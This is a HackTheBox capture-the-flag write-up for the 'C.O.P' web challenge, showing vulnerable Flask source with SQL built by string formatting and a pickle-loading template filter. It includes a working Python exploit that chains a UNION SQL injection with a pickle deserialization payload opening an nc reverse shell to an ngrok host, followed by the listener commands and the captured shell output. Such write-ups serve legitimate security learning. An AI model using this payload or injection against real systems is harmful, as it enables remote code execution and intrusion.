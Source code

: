 ```yaml
---
title: HackTheBox - C.O.P
author: 0
date: 2023-03-31 16:00:00 +0800
categories: [htb, challenge]
tags: [web, sql-injection, insecure-deserialization, pickle]
render_with_liquid: false
---
```

# C.O.P

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

When the code uses `pickle`, Insecure Deserialization directly comes to mind. In this case, the pickle is loaded when . There is however some raw data being placed in a format string in the `select_by_id` method.

```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

This data then gets loaded by `pickle`.

```python
from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```

We can write a script that performs an SQL injection on the product_id parameter to add our serialized payload that then spawns a reverse shell. I didn't managed to get ` cat flag.txt` payload to work, but a reverse shell did work.

```python
import requests
import sys
import base64
import pickle
import urllib

class Exploit():
    def __reduce__(self):
        import os
        cmd = ("mkfifo /tmp/f;nc NGROK_URL NGROK_PORT  0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f")
        return os.system, (cmd,)
serialized_data = base64.b64encode( pickle.dumps(Exploit())).decode()
payload = f"1' UNION select '{serialized_data}' --" 
encoded_payload = requests.utils.requote_uri(payload)

url = f'http://{sys.argv[1]}'
response = requests.get(f'{url}/view/{encoded_payload}') 
print(response.request.url)
print(response.content)
```

Important to first install and run ngrok, replace `NGROK_URL` and `NGROK_PORT` in the payload:
```bash
$ Downloads/ngrok tcp 9001
```

Start a netcat session to catch the reverse shell:
```bash
$ nc -lvnp 9001
```

After running the exploit script, we get a shell through netcat that was setup in a seperate terminal:
```bash
$ python3 exploit2.py 161.35.164.69:31934
```

```bash
$ nc -lvnp 9001                                
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 39644
/bin/sh: can't access tty; job control turned off
/app # ls
application
cop.db
flag.txt
requirements.txt
run.py
schema.sql
/app # cat flag.txt
HTB{**REDACTED**}
/app # 
```
